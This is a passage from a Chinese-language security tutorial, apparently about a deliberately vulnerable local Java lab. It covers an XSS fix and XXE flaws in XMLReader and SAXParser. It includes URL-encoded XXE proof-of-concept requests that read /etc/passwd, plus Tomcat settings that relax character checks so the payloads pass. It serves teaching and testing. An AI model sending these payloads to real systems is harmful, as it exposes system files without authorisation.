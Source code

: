 查看数据库中存储的XSS数据：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756711441745-f0ece6d7-4ae7-4998-9478-1fda1bc1d49a.png)

#### 修复意见
1. 后端输入转义，前端输出转义

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756711550620-7503f14a-5c07-4a9f-ba7d-aa630bac79b3.png)

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756711703499-771d459c-99ad-4258-913b-638501cd3e31.png)

## XXE
### 漏洞成因
1. XMLReader

在未禁用外部实体解析的情况下，XML解析器可能会处理外部实体声明，从而导致XXE：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756711849498-134591e4-21d1-492e-8950-a1b5d9dd0129.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/XXE/XMLReader?content=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C!DOCTYPE%20root%20%5B%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Croot%3E%26xxe%3B%3C%2Froot%3E
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1756714488651-5d3c8d6f-8005-4e0c-8dc8-3225c7082a8e.png)

P.S.，为了避免出现400错误，这里放宽Tomcat的查询字符校验，在`application.properties`文件中添加以下配置：

```plain
server.tomcat.relaxed-query-chars=<,>,[,],{,},|,\,^,`
server.tomcat.relaxed-path-chars=<,>
```

2. SAXParser

SAXParser是XMLReader的替代品，它提供了更多的安全措施，例如默认禁用DTD和外部实体的声明，如果需要使用DTD或外部实体，可以手动启用它们，并使用相应的安全措施：

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296055260-ac0f8aa2-49e9-41e3-b9e6-d96f39247b9f.png)

PoC：

```plain
http://127.0.0.1:8888/vulnapi/XXE/SAXParser?content=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C!DOCTYPE%20root%20%5B%3C!ENTITY%20xxe%20SYSTEM%20%22file%3A%2F%2F%2Fetc%2Fpasswd%22%3E%5D%3E%3Croot%3E%26xxe%3B%3C%2Froot%3E
```

![](https://cdn.nlark.com/yuque/0/2025/png/43311313/1757296087541-8e5ce29a-5231-48a1-9158-6fcd89f471fb.png)

3. SAXReader

SAXReader类默认情况下可能允许处理外部实体，导致XXE攻击：

